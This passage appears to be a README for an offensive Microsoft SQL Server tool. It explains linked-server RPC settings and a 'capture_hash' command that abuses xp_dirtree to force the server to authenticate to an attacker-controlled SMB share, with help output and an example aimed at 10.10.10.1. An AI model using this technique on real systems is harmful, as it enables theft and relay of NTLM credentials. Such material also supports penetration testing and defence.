 Executing commands on linked servers requires the link to be configured with [RPC Out](https://learn.microsoft.com/en-us/previous-versions/sql/sql-server-2008-r2/ms186839(v=sql.105)?redirectedfrom=MSDN), which is not enabled by default. This setting can be turned on with the `enable_rpc` command.

## NTLM hash capturing and relaying

Using the undocumented [`xp_dirtree` procedure](https://www.sqlservercentral.com/blogs/how-to-use-xp_dirtree-to-list-all-files-in-a-folder), we can force an SQL server to authenticate with an attacker-controlled remote SMB share, allowing us to capture or relay the Net-NTLM hash of the user under which the SQL server is running. This can be done using the `capture_hash` command:

```
sql01 » capture_hash -h
usage:  capture_hash [-h|--help] --ip "<value>" [--share "<value>"]
        [-v|--verbose]

        Cause SQL server to authenticate against remote SMB share

Arguments:

  -h  --help     Print help information
      --ip       IP address of listening SMB server
      --share    Name of SMB share. Default: test
  -v  --verbose  Enable debug output


sql01 » capture_hash --ip 10.10.10.1 --share myshare
```